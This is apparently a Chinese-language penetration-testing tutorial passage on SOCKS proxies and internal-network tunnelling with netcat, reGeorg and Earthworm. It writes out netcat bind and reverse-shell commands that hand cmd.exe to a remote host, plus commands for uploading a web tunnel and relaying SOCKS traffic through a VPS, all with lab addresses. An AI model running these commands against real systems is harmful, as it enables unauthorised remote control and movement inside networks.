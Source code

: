 Lhost只向proxy发送普通的请求，具体让他转到哪里，proxy自己判断，然后将返回的数据递交回来，这样的好处就是在某些防火墙只允许proxy数据进出的时候可以有效的进行穿透。

代理的本质：socks协议，位于会话层（应用层）

Socks介于传输层与表示层之间，使用TCP协议传输数据，因而不提供如传递ICMP信息之类的网络层相关服务。

目前有两个版本：SOCKS4和SOCKS5

SOCKS4支持TELNET、FTPHTTP等TCP协议；

SOCKS5支持TCP与UDP，并支持安全认证方案。

Ps: Socks不支持ICMP，不能使用ping命令

使用nc演示

>   主机A：192.168.153.138
>
>   主机B：192.168.153.140

正向：

A机：`nc -l -p 5555 -t -e cmd.exe`，-t是通过telnet模式执行 cmd.exe 程序，可以省略

B机：`nc -nvv 192.168.153.138 5555`，

反向：

B机：监听 `nc-lp 5555`

在A机反弹：`nc -t -e cmd 192.168.153.140 5555`

## reGeorg+Proxychains

主要是把内网服务器的端口通过http/https隧道转发到本机。

上传reGeorg的tunnel.jsp到web主机A

主机B：`python reGeorgSocksProxy.py -p 1080 -u http://192.168.153.137/tunnel.jsp`

使用设置proxychains的代理端口，进行访问，一般配合nmap和metasploit进行后续内网渗透。

Ps：socks4版本协议不支持udp和icmp协议，所以使用nmap要加上-sT -Pn即使用tcp协议且不使用icmp协议。

## Earthworm+Proxychains

### 反弹socks5服务器

当目标网络边界不存在公网IP，通过反弹方式创建socks代理。

先在一台具有公网 ip 的主机A上运行以下命令

`./ew_for_linux64 -s rcsocks -l 1080 -e 8888`

意思是在我们公网VPS上添加一个转接隧道，把1080端口收到的代理请求转交给8888端口

在目标主机B上启动SOCKS5服务 并反弹到公网主机的8888端口

`ew_for_Win.exe -s rssocks -d 192.168.153.129(VPS) -e 8888`

本地主机（192.168.153.129）然后通过添加公网192.168.153.129:1080这个代理,来访问内网机器（192.168.153.129）
